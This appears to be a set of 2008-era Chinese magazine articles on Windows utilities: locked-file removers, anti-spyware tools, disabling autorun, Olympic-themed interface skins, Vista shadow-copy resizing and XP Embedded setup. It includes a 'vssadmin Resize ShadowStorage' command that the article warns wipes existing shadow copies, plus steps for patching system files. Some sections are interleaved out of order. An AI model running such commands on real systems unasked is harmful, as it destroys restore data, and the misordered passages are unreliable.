推荐指数：★★★★★ 下载地址：http://ccollomb.free.fr/unlocker/

Unlocker V1.8.7是一个免费的解锁工具，当用户发现有文件或进程无法删除时，可以通过右键菜单中的“Unlocker”进行解锁。值得一提的是，它并非强制关闭的程序，而是以解除进程与程序关联性的方式进行，因此不会造成数据丢失。其典型特点可以归纳为：操作简单，删除功能强大。

第1步：打开文件
从网上下载安装程序后，直接点击“下一步”即可。完成安装后，Unlocker直接与鼠标右键结合在一起。以后要删除文件时，右键选择“Unlocker”选项即可。

的程序，而是以解除文件与程序关联性的方式进行删除的。下面，分别打开本文设置的四个测试对象。以本文构建的特殊字符文件夹com1为例。在文件上单击鼠标右键，在弹出的菜单中选择“Unlocker”，软件提示可以处理这个文件。单击“确定”按钮，出现“文件被移到回收站里”的对话框，表明文件已经被成功删除了。使用类似的方法顺利删除了超长目录文件夹及运行中的软件。如图14所示。



测试新建的Word文件时，出现一个过程对话框，单击左下方的“删除”选项，同时选中正在打开的过程选项，也可以顺利完成文件删除。如图15所示。



从测试结果来看，Unlocker因其可以直接通过右键命令对文件和文件夹进行操作，操作起来更加简捷，因此从整体上看甚至比IceSword还要略胜一筹。

巧用Unlocker安全删除移动设备。在使用移动存储设备时，往往会出现无法正常删除的现象。现在，使用Unlocker可以轻松解决这个问题。打开“我的电脑”窗口，选择U盘所在的盘符，从右键菜单中执行“Unlocker”，从这里可以看到正在访问移动设备的进程。单击“解锁”或“全部解锁”按钮，再次点击任务栏右边的安全删除硬件的图标时，就可以安全删除了。

总的来说，Unlocker的功能非常实用，它能够方便地删除正在运行的病毒文件，从而达到完全清除系统病毒的目的。

事实上，类似于IceSword和Unlocker的软件还是很多的，下面选择“超级巡警文件删除器V1.3”进行介绍。软件下载地址为：http://u8.dswlab.com。将下载的“超级巡警文件删除器”解压到某个文件夹，直接点击即可运行软件。根据超级巡警暴力文件删除器的软件介绍，该软件有三个功能，分别是：暴力删除正在运行中的文件，粉碎并删除被其他程序占用的文件，粉碎后的文件无法使用数据恢复工具恢复。遇到某个文件无法删除时，我们知道无法删除是被某个程序占用/锁定了，却不知道是哪个程序。在该文件上点击右键，选择“Sucop暴力文件删除”，此时会显示当前文件是被哪个程序占用/锁定了，点击“解锁”按钮，将对文件进行解锁；点击“删除”就可以将文件删除。在测试过程中，分别对本文设置的四个测试对象进行删除，对于正在打开的Word文件及无界代理软件，解锁之后，尽管提示已经成功，但并未能有效删除。对于长目录文件也未能有效删除。本次测试中，“超级巡警文件删除器V1.3”的表现略差，唯一可以删除的是特殊字符文件夹com1。如图16所示。



除了上述专业删除工具，还有许多优秀的文件删除软件。这些软件各有所长，如Eraser (http://www.skycn.com/soft/4303.html)、KillBox (http://www.skycn.com/soft/22176.html)、DeleteOnClick (http://www.crsky.com/soft/9996.html)等。在遇到文件删除的难题时，也可以选择这些软件进行删除测试。

# ## 3. 明察秋毫：删除隐藏的恶意文件

实际上，顽固文件的一个根源就是来自于恶意软件，仅仅删除某一个顽固文件是远远不够的。因此，针对这些隐蔽的恶意文件，需要建立严格的防范措施。除了在电脑上尽量少保存个人敏感信息、安装一款强大的防病毒软件之外，还要尽量避免从非官方网站上下载和使用软件，对不了解的ActiveX插件禁止其安装。再者，在安装软件特别是一些免费软件前，要仔细阅读软件的隐私保护规定，避免盲目安装。在此，推荐几款优秀的恶意文件清理工具。

（1）Spybot Search and Destroy V1.6.0
软件下载地址：http://spybot.safer-networking.de或http://www.skycn.com/soft/15694.html

Spybot Search and Destroy也是一个专门用来清理恶意间谍软件的工具，其版本历史比较悠久。软件最大的亮点是可以检测多种间谍软件，到目前为止，已经可以检测一万多种恶意间谍软件，并可对其中的一千多种进行免疫处理，而且这个软件提供了完全免费的中文版本。软件安装完毕即可看到灰色中文界面，比较符合国内用户的使用习惯。单击【模式】菜单下的【高级模式】，即可进行界面的切换。在高级界面中，左边是竖排的【检测与修复】、【设置】、【工具】等栏目，点击左侧的按钮，在右侧即可出现相应的设置。如图17所示。



清除恶意文件时，首先需要进行扫描检测。在主界面中单击【检测】按钮，或者单击左侧检测与修复栏目下的【检查与修复】图标，就可以对系统进行扫描。完成检测后，单击上方的【修复】按钮，就可以对出现问题的软件进行修复或清除。打开左侧的【免疫】按钮，在弹出的界面中单击上方的【Immunize(免疫)】按钮，就相当于给系统打了预防针，可以有效防范恶意程序的入侵。对于所查找到的恶意文件，能够显示在统一的界面中，并提供详细的操作信息，修复过程简单明了。

值得一提的是，该软件还提供了文件粉碎功能，在文件删除方面可谓考虑周密。

## (2) 恶意软件清理助手2008
软件下载地址：http://www.tomsoft.com。乍一看此款软件的名字，就知道它的来头不小了。作为一款专业清理软件，恶意软件清理助手还是有一些独到之处的，尤其是资源占用十分少。

- 恶意软件清理
- 进程服务管理
- 系统文件检测
- 自动运行管理
- 临时文件清理
- 系统修复工具等

在清除恶意软件方面，它可以检测多达近百种恶意软件，尤其是网络行业协会点名的“十大流氓软件”。选中相关的恶意软件后，点击【立即清理】按钮，即可对相关文件进行清理。如图18所示。



## (3) Windows清理助手 V 2.8.16.8.1006
软件下载地址：http://www.arswp.com。Windows清理助手界面采用了淡绿色风格，看上去有一种亲切明快的感觉。网站界面分为简洁模式和高级模式，实际使用中，用户可选择两种模式自由切换。在默认的简洁模式中，主要提供了【快速扫描】功能；在高级模式中，则包含了更多的自定义功能。查找恶意文件之前，首先要进行扫描。在扫描结束后，选择某个对象，单击“执行清理”按钮，即可删除相关文件。总的来看，“Windows清理助手”操作简单快捷，能够快速发现典型的恶意软件，比较适合初级用户使用。如图19所示。



## (4) Ad-aware 2008
软件下载地址：http://www.lavasoft.de或http://www.skycn.com/soft/6611.html

Ad-aware 2008是一款免费的系统安全工具，它可以扫描内存、注册表、硬盘和外部存储器，快速找出广告跟踪文件和间谍软件。新版本的Ad-aware 2008在功能上有一定提升，由于是英文版本，安装过程稍显复杂。安装完毕，在开始界面单击左侧的按钮，可以对软件进行相关的设置，包括【Status（状态）】、【Scan（扫描）】、【Ad-Watch（监控）】、【Web-Update（网络升级）】、【Tools&Plug-Ins（工具和插件）】、【Settings（配置）】等。

- 【Status（状态）】
- 【Scan（扫描）】
- 【Ad-Watch（监控）】
- 【Web-Update（网络升级）】
- 【Tools&Plug-Ins（工具和插件）】
- 【Settings（配置）】

其中，在【配置】界面中，集中了一些安全方面的专家设置建议，如扫描引擎设置、清理引擎、安全设置、日志文件、用户界面等。整体界面采用了圆弧矩形设计，淡蓝色的格调中洋溢着现代感。如图20所示。



单击右键，就可选择右键菜单上的选项进行相应操作了。总的来看，作为一款老牌的间谍软件清理工具，Ad-aware 2008在整体设计上十分流畅，而且操作方便；新版本的软件强化了间谍软件扫描功能，尤其是可将许多国内的恶意软件所带来的顽固文件扫描出来，并能够快速自动清理。

总体而言，在“出身名门”的组合软件中，360安全卫士并非浪得虚名，由于其对用户的深层了解，无论是针对恶意软件的清理分类还是系统安全防护，都表现出明显的优势。相对而言，瑞星卡卡上网安全助手、金山毒霸系统清理专家在安全防护、病毒查杀等方面的功能比较强大，但缺乏对恶意软件的深入分析以及对用户需求的深入理解。在来自“民间”的优秀个人软件中，Unlocker体积小巧、操作简便而且功能强大，在本次测试中表现十分抢眼；与Unlocker同样并驾齐驱的还有IceSword（兵刃），也获得了本次测试的五星级推荐。在顽固文件清理方面，专业的Unlocker、IceSword（兵刃）要明显强于瑞星卡卡上网安全助手、金山系统清理专家，美中不足的是，这些软件在隐蔽恶意文件的扫描方面稍处下风。因此，在实际使用过程中，我们完全可以综合360安全卫士、Unlocker、IceSword（兵刃）等软件，从手工清除、自动化扫描等方面多管齐下，彻底清除电脑中的顽固文件和恶意隐蔽文件。当然，需要提醒大家的是，在使用专业工具删除系统的关键文件时，因为这种操作是不可逆的，可能会造成系统崩溃。所以，大家在删除文件的时候一定要格外谨慎，这样，才能打造一个安全、稳定而干净的系统。

## “七剑下天山”——拒绝自动播放
相信很多朋友都遇到过这样的情况吧：当你把硬盘、移动硬盘、闪存或者是光盘等插入电脑后，它们马上就会自动播放起来，于是，你又必须马上关闭它们。更可怕的是，如果这些硬盘、移动硬盘、闪存等是携带病毒的，那么当它们插入电脑自动播放时，还会触发这些病毒，让它们在瞬间感染一台原本无病毒的电脑。轻则只是改改你的盘符，重则可让你的电脑系统彻底瘫痪。这样的情况时常在我们身边发生，防不胜防。那么在如今这个病毒无孔不入的年代，我们能做的就只有尽可能地将这种惨剧发生的几率降到最低，将这种病毒的传播方式扼杀在摇篮里。以下就是我们向大家推荐的防止自动播放的“独孤七剑”。以剑会友，大家切磋切磋。

◆文/TMG zlw

## 游龙剑——关闭服务法
这个方法很不错，是个“一劳永逸”的好办法。
我们先在桌面上找到“我的电脑”，在此图标上单击右键，在显示出的快捷菜单中单击“管理”命令。
我们便进入到“计算机管理”窗口。在其下的“服务和应用程序”树状菜单中单击“服务”命令。
然后，在窗口右边显示出的众多服务项中找到Shell Hardware Detection，它就是为自动播放硬件事件提供通知的服务项。
我们只需要在“状态”一栏中选择“停止”，将“启动类型”修改为“已禁用”或者“手动”就行了。
这样轻轻松松地在电脑上设置以后，我们就不需要再为它的自动播放功能而担心了。

## 青干剑——组策略预防法
其实用“组策略”来防止硬盘、移动硬盘、闪存等的自动播放，也是个不错的办法。虽操作稍有点麻烦，但效果不错。
首先单击桌面左下角的“开始”按钮，在随后出现的页面中单击“运行”。
在出现的对话框的“打开”后键入gpedit.msc。
这样我们就进入了“组策略”窗口。在此窗口中，我们先展开“计算机配置”树状菜单，并在其中找到“Windows设置”，继续展开“Windows设置”树状菜单，再在其下的“安全设置”菜单中找到“软件限制策略”，单击“软件限制策略”下的“其他规则”，并在窗口的右边空白处单击鼠标右键，添加路径和文件名即可。例如，当我们输入g:\*.exe，就可以防止exe文件的自动运行了。
这种防止自动播放的设置是具有针对性的，可方便用户的灵活使用。

## 穆野剑——磁盘操作法
磁盘操作法也是一种效果十分出色的方法，这种方法只适用于Windows XP操作系统中。
具体的操作方法如下：先双击“我的电脑”。打开后，选择你需要关闭自动播放功能的盘符，然后单击鼠标右键，在出现的菜单中单击“属性”菜单项。接着，在弹出的窗口中单击“自动播放”选项卡，然后就可以根据自己的需要分别对“图片”、“音乐文件”、“音乐CD”、“视频文件”和“混合内容”进行不同的设置。如果用户在所有的科目下都是选择的“不执行操作”，那么也就是禁用了自动播放功能。
这种可以分门别类地设置防止自动播放功能的方法，几乎适用于所有的驱动设备。你是不是觉得很实用呢？！
当然，我们要有效地防止自动播放，也可以借助于其他软件。下面这两种方法我们就邀请了外援的加入。

## 干将剑——软件法
我们先隆重地向大家介绍Tweak UI软件，这是一款由Microsoft出品的软件，它可以控制所有的盘符是否具有自动播放功能，并且这款软件在任何Windows操作系统上都可以使用。
当然，我们的第一步就是先拥有这个软件。好在有“百度”，找个东西难不倒我们。在搜索框中键入Tweak Ui，就可以帮你找到很多下载的地方，当然我们选择一个就够了。
接下来的步骤就是选中某个下载地址，单击鼠标右键，在出现的菜单里单击“目标另存为”，将文件保存下来。最终我们将得到一个可执行文件。
运行该程序，弹出Tweak UI窗口，在其中自由勾选，就能轻松地控制“禁止”或者“启动”自动播放功能了。如图1。



## 莫邪剑——免疫程序法
这个方法虽然也是依靠其他软件才能发挥作用，但相较于前一个软件，它的操作还是稍显复杂。首先我们仍然还是要去下载个其他的软件，但这次就不再麻烦大家去百度搜了，还是直接去http://www.366soft.net/soft/sort010/sort0143/down-2555.html下载吧，软件的名称是：Autorun病毒免疫器1.0绿色版。下载和安装过程和上面介绍的类似，所以我在这里就不再赘述了。单击下载到的文件图标，将出现“超级巡警U盘病毒免疫器V1.4”窗口，在此窗口中，我们可以将“免疫目标”设定为“所有本地驱动器”或者自行选择磁盘。然后千万别忘记勾选“禁止自动运行功能”，最后单击“开始免疫”，整个过程也就完成了。这样，以后自动播放病毒就无法再入侵你的电脑了。如图2。



## 新蕊剑——Shift键
“一剑封喉”是最有效也最简单的方法。Shift键就是如此。其实我们只需要在插入硬盘、移动硬盘、闪存或光盘时，同时用手按住Shift键不放，这样自动播放功能就不会启动了。这个方法在Windows 98的时候就开始被使用了。实践证明确实很有效，操作起来也相当容易。一“剑”在手，轻松搞定。

## 鱼肠剑——注册表法
以上6种办法都还比较简单，下面我们再向大家介绍一个操作起来比较复杂的笨办法。这种方法针对具有多个分区的驱动设备来说，是比较好用的方法。先单击“开始”按钮，在打开的窗口中单击“运行”命令项。在弹出的对话框里键入regedit。这样就打开了“注册表编辑器”窗口，先找到[HKEY_CURRENT_USER]树状菜单。展开，接着展开其下的Software树状菜单。单击Microsoft并展开，选择其下的Windows，然后在Windows树状菜单里单击Current Version，展开，你会看到Policies树状菜单，继续再展开，最终单击Explorer命令。你将会在右边的窗口中找到NoDriveTypeAutoRun，就是它决定了是否执行光盘或者是硬盘分区中的autorun功能。为了方便大家理解，接下来的操作我们试举一例来分析。下表中每一位代表一个设备，不同设备用以下数值表示（如表）：在表中的数值一栏中，数值0就表示设备是运行的，数值1则表示设备不运行。所以我们为了防止自动播放功能的运行，只需要将不希望自动运行的驱动器的数值修改为1即可。

| 设备名称 | 第几位 | 数值 | 设备用如下数值表示 | 设备名称、含义 |
|---|---|---|---|---|
| DRIVE_UNKNOWN | 0 | 1 | 01H | 不能识别的类型设备 |
| DRIVE_NO_ROOT_DIR | 1 | 0 | 02H | 没有根目录的驱动器 |
| DRIVE_REMOVABLE | 2 | 1 | 04H | 可移动驱动器 |
| DRIVE_FIXED | 3 | 0 | 08H | 固定的驱动器 |
| DRIVE_REMOTE | 4 | 1 | 10H | 网络驱动器 |
| DRIVE_CDROM | 5 | 0 | 20H | 光盘驱动器 |
| DRIVE_RAMDISK | 6 | 0 | 40H | RAM磁盘 |

以上我们为大家介绍了7种防止自动播放的方法，它们在一定程度上都能有效地帮助我们，尤其是在阻断病毒传播途径方面。让我们在“独孤七剑”的庇护下，共同创造一个无公害的电脑世界。

## 值得记忆的奥运年
## ——为电脑换奥运经典时刻界面
2008年的北京奥运会已经过去，辉煌伴随着国人度过了难忘的一年。如今，当你在网络的搜索栏中键入“奥运”主题查找图片时，将会获得大量制作精美的相关图片。面对这些奥运图片，很多电脑用户就萌发一个想法，如果我们能够使用这些图片来美化Windows系统和软件界面，打造个人的电脑奥运主题，回忆美好的奥运瞬间。

下面就来详细介绍一下“包装”Windows系统和软件界面的方法。你也赶紧来做一做吧！

文/TMG lx

## 一、2008北京奥运LOGO——“奥运”启动界面
2008北京奥运的LOGO——“中国印舞动的北京”会徽成功地将肖形印、中国字和五环徽有机结合，既体现了拥有千年历史的中国印章、书法等艺术形式，同时舞动的形象、奔放的红色也将运动的主题和“以人为本”的精神展露无遗。

如果能使用这个美丽的奥运LOGO作为你的系统启动画面，相信一定能让人眼前一亮！

### 1.准备工作
（1）下载需要的图片素材
可以通过百度（www.baidu.com）搜索“2008北京奥运会会徽”。

（2）制作Windows启动画面
我们使用最常见的Photoshop软件来制作Windows启动画面。
Windows启动画面的图片格式是有特定要求的。Windows XP要求启动画面为640×480像素、16色（4位色）、BMP格式文件。

步骤一：运行Photoshop，依次单击“文件→新建”，在“新建”对话框中进行如下设置（如图1）。



步骤二：依次单击“图像→模式→索引颜色”，弹出“索引颜色”对话框（如图2），将“调板”选项设置为“系统<Windows>”格式，单击“确定”返回。



步骤三：将背景设置成黑色，把下载的“2008北京奥运会会徽”粘贴到boot中，并对图片进行处理，得到下图（如图3）。
具体过程就不详细介绍了。当然，你也可以按照自己的喜好对图片进行其他处理。



最后，单击“文件→存储为”，将图片保存为BMP格式（boot.bmp）。
需要注意的是，这时制作出来的图片并不是4位（16色），需要借助其他软件，如ACDSee，对图片进行转换。
用ACDSee打开boot.bmp，单击工具栏中的“编辑”按钮，转入“ACDSee图像编辑器”界面，依次单击“颜色→16色（4 bpp）”（如图4），将图片设置成16色，然后单击“保存”，并关闭该界面与ACDSee。



（3）制作Windows启动画面的滚动条
Windows启动画面的滚动条也是有特殊要求的，22×9像素、16色（4位色）、BMP格式。

步骤一：在Photoshop中单击“文件→新建”，在打开的对话框中进行如下设置（如图5）。



步骤二：依次单击“图像→模式→索引颜色”，弹出“索引颜色”对话框，将“调板”选项设置为“系统<Windows>”格式，单击“确定”返回。

步骤三：运用制图工具制作滚动条（如图6）。


最后，将做好的图片保存为BMP格式（boot_g.bmp）。这个boot_g.Bmp也需要用ACDSee转换成4位（16色），方法和上面boot.Bmp的转换一样。

小提示：为了使启动画面与整个系统协调统一，你可以下载一个Windows原有启动画面，在这个画面的基础上进行Photoshop处理，滚动条也可以使用系统原有的。

### 2.更换启动画面
更换Windows系统启动画面的方法有两种。一种是以手动方式替换系统原有文件，即用自己制作的文件覆盖原有系统文件；一种是利用软件替换工具进行替换。手动替换很不安全，并且不能恢复（使用前最好先将原有文件进行备份），所以建议采用软件工具来替换。

软件也分两种，系统文件替换工具以及专门用于更换系统启动画面的软件。这里就推荐一款方便简洁的Windows系统启动画面更换的工具——BootXP。

| 引导画面 | 大小 |
| :--- | :--- |
| JPG1.jpg | 33 Kb. |
| JPG2.jpg | 20 Kb. |
| JPG3.jpg | 64 Kb. |
| JPG4.jpg | 32 Kb. |
| JPG5.jpg | 68 Kb. |
| BMP boot.bmp | 301 Kb. |
| BMP boot_g.bmp | 0 Kb. |
| ZIP HA-bootxp240r1-... | 1508 Kb. |

只要准备好符合规格的BMP文件，利用BootXP 2.50，你就可以轻松、快速地修改Windows 2000/XP的启动画面。

从http://www.newhua.com/soft/4471.htm下载BootXP 2.50，解压缩后双击bootxpsetup.exe应用程序进行安装。你可以同时下载汉化插件进行汉化。

安装结束后，双击运行BootXP软件，进入软件主界面（如图7）。



步骤一：单击“浏览”并在打开的对话框中选择boot.bmp所在的文件夹，左侧窗口将显示此文件夹下所有图片。
步骤二：选择自己所制作的boot.bmp文件，中间的“图像资源”窗口将会显示该图片。
步骤三：单击中间的“转换到引导画面”按钮，图片将会转换到右侧“引导画面窗口”。
步骤四：单击“选择进度条”按钮，弹出“交替进度和覆盖位图”对话框，单击“浏览”按钮，选择boot_g.bmp文件，单击“确定”返回。
步骤五：单击“保存你的引导画面”按钮，关闭BootXP软件。

在下次启动计算机时，你就会看到修改后的开机画面了。

看到自己制作的2008奥运会LOGO的启动画面，很开心吧？

小提示：如果你的系统是Vista，在制作启动画面图片时尺寸要相应调整成800×600（24bit）或1024×768（24bit）。软件也要更换，推荐使用Vista Boot Logo Generator 1.2 Beta，可以从http://www.newhua.com/soft/62792.Htm下载。这是一款专门用来更换Vista系统启动画面的软件，界面简单，使用方便，直接导入图片就可以了。

## “同一个世界，同一个梦想”——“奥运”登录主题
“同一个世界，同一个梦想”，2008年北京奥运会的口号唱出了全球人的奥运梦想，也唱出了中国人的心声。下载一幅好看的奥运口号图片作为登录画面，是我们作为2008年奥运会主办国家的人民骄傲的一种体现。

在Windows系统的登录画面中，用户图标可以通过控制面板的用户账户来更改，但是其余部分的画面却不可以用图形文件随便替换。

Windows登录画面并不是一个单纯的图片文件，涉及到系统程序文件logonui.exe。只有找到合适的登录文件并把logonui.exe替换掉，才能改变原来的登录画面。其制作过程显然不是我们这些非专业人士能够简简单单完成的。

但也并不是完全没有办法，logonui.exe是通过键入所需要图片的路径来调用图片的，因此只要我们更改这些路径下的图片不就能够达到目的吗？但是不了解语言的我们并不能准确分析这些图片的路径，而且一个一个寻找并替换也是一件浩大的工程。

这时我们就可以借助Exescope软件来完成。该软件可以重写可执行文件的资源（包括EXE、DLL、OCX等），修改VC++及DELPHI编制的资源文件，更改菜单、对话框和位图等。

从http://www.newhua.com/soft/9593.htm（华军）下载该程序，也可以下载其汉化版http://www.newhua.com/soft/9594.htm（华军），直接运行安装程序，安装过程简单、快速。

需要提示的是，我们要改动的毕竟是系统文件，存在一定危险。所以在操作之前最好备份一个Logonui.exe文件。

这样如果操作失败，我们还可以使用Exescope软件将其还原。

步骤一：双击运行Exescope，显示主界面（如图8），单击“文件→打开”，选择位于C:\windows\system32\下的Logonui.exe文件。

步骤二：在左边的窗口中选择“资源”，选择“位图”，会看到许多数字，逐一点击就会在右窗口中发现登录界面中所有用到的图形元素都在里面，找到登录时显示的Windows图标的那个图片。

步骤三：单击“文件→导出”将图片提取出来。

步骤四：用Photoshop新建一个图片文件，将下载的2008北京奥运口号图片复制到其中，按照要求对图片进行处理（如图9）。尺寸和名称与所提取的图片相同。

步骤五：单击“文件→导入”将原来的图片换掉。


如果你的系统是Vista，同样可以使用该软件对登录画面进行更改。但与XP系统不同的是，需要更改的图片位于C:/Windows/System32/imageres.dll中。这时同样用Exescope软件，打开imageres.dll文件，找到需要更改的图片，按照其规格制作登录界面的图片并进行替换就可以了。

## 点燃激情，传递梦想——‘奥运’主题桌面

我们已将开机和登录画面变更成富有个性的“奥运”主题风格了，下面就要进入Windows操作系统的最主要部分——桌面。桌面是我们日常操作Windows系统时接触最多的界面，既然我们要打造“奥运”风格的电脑，这一部分是肯定少不了的。

网络中“奥运”风格的壁纸数量还是很可观的，你可以用“百度”等搜索引擎以“奥运桌面壁纸”为关键字进行搜索，从福娃系列到火炬系列应有尽有，甚至还有可口可乐、邦尼熊等风格的奥运壁纸。桌面图标和鼠标指针的相关文件也很多，我们也可以利用搜索到的小图片自己制作。但是，如果一个个地制作，相当费时费力。下面就来推荐一款不错的奥运主题桌面——格调网精品奥运主题之奥运圣火 1.0 XP系统/Vista系统。该主题以银色和红色为整体的色调，大量运用祥云花纹，背景图是以第29届奥林匹克运动会火炬传递图片为主，此外还包括鼠标指针和桌面图标，相当全面。

推荐下载地址：http://www.onlinedown.net/soft/66322.htm（XP）http://www.onlinedown.net/soft/66324.htm（Vista）。下载完成后解压缩，双击“格调网Olympic-Torch主题”，依次单击“下一步”至安装完成。随即将会弹出“主题设置”对话框，在“主题”下拉菜单中选择“Olympic-Torch（By 格调网）”（如图10），单击“应用”，你的系统将换上奥运主题的“新衣”（图11）。就连鼠标都变成了奥运LOGO和福娃了，超COOL！

别忘了还有“奥运”屏保呢！推荐一款，2008北京奥运屏幕保护1.28。该屏保程序包括北京2008奥运会会徽、北京2008残奥会会徽、北京2008奥运会志愿者标志、Environmental Symbol of Beijing Olympics -'Green Olympics'、北京2008年第29届奥运会吉祥物——福娃等图片，相当丰富啊！

你可以从http://www.newhua.com/soft/49569.htm（华军）下载。下载完成后解压缩，双击beijing2008screensaver安装，单击“安装”，程序将自动开始安装，安装结束弹出“屏幕保护程序设置”对话框，选择“2008beijing screensaver”（如图12）并单击“应用”，关闭对话框。至此，整个系统都变成“奥运”主题的了。怎么样？很个性吧！







## 自由调整卷影副本的存储空间

Windows XP有“系统还原”的功能，作为新一代操作系统的Windows Vista在这方面有了进一步的发扬光大，新功能称之为“系统保护”，默认设置下会自动启用15%的磁盘空间用来存储还原点，但痛苦的是Windows Vista却并没有提供定制还原点存储空间的选项，虽然说现在的硬盘已经是数百GB级的海量硬盘，但却也经不住如此的“浪费”，其实我们还是可以想想办法的……

### 一、Vista系统下的“以前的版本”

Windows Vista(以下简称Vista)继承了Windows XP的“系统还原”特性，但功能更为出色，现在它有另外一个响亮而且形象的名字：系统保护。



你还可以从网上搜索下载其他人制作好的QQ界面来使用，也可以自己用下载的皮肤制作软件制作。

- 1.打造“奥运”QQ
目前，QQ系统提供的“可口可乐火炬在线传递专属皮肤”就是一款很有个性的主题QQ界面。你可以在桌面右下角的QQ企鹅图标上右击，选择“更换皮肤→可口可乐火炬在线传递专属皮肤”进行设置，获得如下界面（如图13）。另外，我们在上面所使用的“格调网精品奥运主题之奥运圣火1.0 XP系统/Vista系统”还附赠一款配套的QQ皮肤之奥运圣火。只需将“LX-祥云”文件夹复制至QQ安装目录的NewSkins文件夹内，然后在QQ菜单的皮肤选项中选择“LX-祥云”即可使用。

### 2.播放器“奥运”界面

下面以“千千静听”为例，来说明给播放器换肤的方法。在播放器界面上单击鼠标右键，选择“皮肤→选项”，打开对话框，单击“下载更多皮肤…”，进入“千千静听”官方网站中搜索并下载所需要的奥运主题皮肤，将其复制到“千千静听”安装目录下的SKIN目录中。再次打开“选项”对话框，使用下载皮肤。当然，你也可以从网上下载其他非官方网站上的皮肤来使用，方法是一样的。

网上还提供很多如Winamp等播放器的皮肤，一定能找到符合你心意的奥运皮肤。你也可以到官方网站下载皮肤制作软件，自己制作皮肤。

### 3.输入法“奥运”界面

主要介绍一下“搜狗”拼音输入法的换肤方法。在输入法界面上单击鼠标右键，选择“更换皮肤→更多皮肤下载”，进入其官方网站，以“奥运”为关键字进行搜索，下载所中意的奥运主题皮肤。双击运行所下载的程序，然后单击鼠标右键，选择应用“更换皮肤→2008奥运LOGO”。“搜狗”拼音输入法的奥运主题界面很多，一定能满足你的要求，这可能也是很多人选择“搜狗”的理由之一。应用软件的“奥运”主题界面就简单介绍这几个。其实，很多应用广泛的软件如360安全卫士、迅雷、卡巴斯基等网上都有相应的“奥运”主题界面，你可以下载使用。另外，如果你熟悉计算机语言及图像处理，你也可以自己制作软件皮肤。奥运主题界面的制作与使用是广大网民朋友们参与2008年北京奥运会网络宣传的方式之一，是我们爱国方式的一种体现，同时也是时尚与个性的表现。正在使用电脑的你还等什么？赶紧一起来“奥运”吧！

还原点，当然我们也可以在任何时候手工创建还原点，只要你的磁盘空间足够大。

如果你现在打开文件和文件夹属性窗口，如图1所示，我们将会在这里发现一个新的选项卡：以前的版本，当然这个功能只有在启用“系统保护”之后才有实际的意义，而且必须是使用旗舰版本或企业版本才可以使用这项功能，如果是普通的家庭版本，那么是不会出现“以前的版本”这个选项卡的。



### 二、“以前的版本”能干什么？

简单地说，“以前的版本”包括备份副本、卷影副本两种类型，前者是使用备份文件向导备份的文件和文件夹副本，后者是Windows自动保存为还原点一部分的文件和文件夹的副本。默认设置下，Vista在安装完成后将只对系统磁盘启用“系统保护”，此时卷影副本将自动保存为“系统属性”中还原点的一部分，如果需要为其他磁盘创建卷影副本，那么需要打开“系统属性→系统保护”对话框，在这里手工创建卷影副本。

在有需要时，我们可以根据实际情况决定是否需要还原到以前的某个版本。如果需要存储还原点，那么必须在每个已打开系统保护的硬盘上至少需要300MB的可用空间，系统还原可能会占用每个磁盘15%的空间，如果还原点占满了所有空间，系统还原将删除旧的还原点，为新还原点腾出空间。

启用系统保护后，我们可以很轻松地让某个文件或文件夹返回以前的某一个版本，这样即使该文件或文件夹已经被修改而且保存过，你也不用担心，我们可以使用以前版本的文件还原意外修改、删除或损坏的文件，根据文件或文件夹的类型，你可以打开、保存到其它位置，或者还原以前的版本。选中需要还原的某个版本，然后单击右下角的“还原”按钮，其中的神奇之处，还是请朋友们慢慢体会吧……

### 三、调整卷影副本的存储空间

在Windows XP时代，如果你觉得系统还原所占用的磁盘空间过大，可以打开图2所示窗口，拖拽滑块自行指定系统还原所占用的磁盘空间，最大可以使用12%，Windows Server 2003也可以通过存储限制来指定卷影副本所使用的磁盘空间。



不过，Windows Vista却没有提供这样的功能，我们怎么也找不到关于如何减少系统还原空间的选项，难道只能默认启用15%的磁盘空间作为还原以前版本的存储还原点之用，而现在的海量硬盘往往并不需要如此浪费？

没关系，我们可以在命令行模式下完成这一看起来不可能完成的任务，具体步骤如下：

- 1.查看卷影副本存储信息
首先，我们还是先来看一看当前卷影副本存储空间的情况，请单击开始按钮，从“所有程序→附件”中找到“命令提示符”，右击选择“以管理员身份运行”，然后在命令提示符模式下输入如下命令：vssadmin List ShadowStorage

这条命令的作用是列出现有卷影副本存储关联，如图3所示，在这里我们可以查看到当前用于卷影副本存储空间的使用情况，包括已用存储空间、分配存储空间、最大存储空间等数据。

- 2.减少存储空间
如果磁盘空间比较紧张，那么请在命令提示符模式下输入如下命令重新调整卷影存储关联的大小，不过执行这条命令后会导致卷影副本消失，因此请事先做好相关的备份工作：

```
vssadmin Resize ShadowStorage /For=E: /On=E: /MaxSize=1000MB
```



需要指出的是，这里的“/For=”和“/On=”后面的字母都是需要调整的磁盘盘符，两者当然必须相同，“MaxSizeSpec”的值必须大于等于300MB，单位可以是KB、MB、GB、TB、PB、EB，当然也可以简化为B、K、M、G、T、P、E，如果没有提供相应的后缀，那么默认的单位是字节。另外，如果没有指定“MaxSizeSpec”，卷影副本使用的空间不会有任何限制。

执行此条命令后，如果刚才的输入没有什么错误，那么很快就会调整成功，效果如图4所示。如果你还不放心，可以再次执行“vssadmin List ShadowStorage”进行查看。



## 利用官方开发平台 你我也能定制嵌入版 Windows XP

◆文/王志军

我们经常听说有些网友将Windows XP瘦身为只有7MB，微软已经开发了使用于嵌入式系统的“Windows XP Embedded”。其实，利用微软官方提供的开发平台，你我同样可以自行定制符合要求的Windows XP，请按照下面的步骤进行操作：

### 一、做好准备工作

需要说明的是，定制Windows XP的工作只能在Windows 2000 SP4或Windows XP Professional平台下进行，要求系统分区拥有不低于10GB的可用空间和512MB的物理内存。

访问http://www.microsoft.com/windows/embedded/downloads/default.mspx，单击页面右侧的“Product Trial Registration”部分下的“Windows XP Embedded”链接，这里需要使用Windows LiveID账号进行登录，随后会进入一个注册页面，在这里提供相关的资料，我们会获得Windows XP Embedded with Service Pack 2的免费试用序列号，试用时间为120天。

接下来，请进入https://www.microsoft.com/windows/embedded/products/wexpe/getting-started.mspx页面，单击“Windows XP Embedded SP2 Evaluation Edition”链接，随后会进入下载页面，按照提示将下载管理器XPEFFI.exe下载回来。运行下载管理器，选中“Main Products”选项卡下的所有项目，切换到“MUI Packs”选项卡，在这里选择“Chinese(Simplified) MUI Package – XP Embedded SP1”、“Chinese(Simplified) MUI Package – XP Embedded sp2”两个语言包，最后单击“Start Download Now”按钮开始下载，由于是从微软的官方服务器进行下载，因此下载所需要的时间可能相对漫长一些，请耐心等待。

### 二、安装开发平台

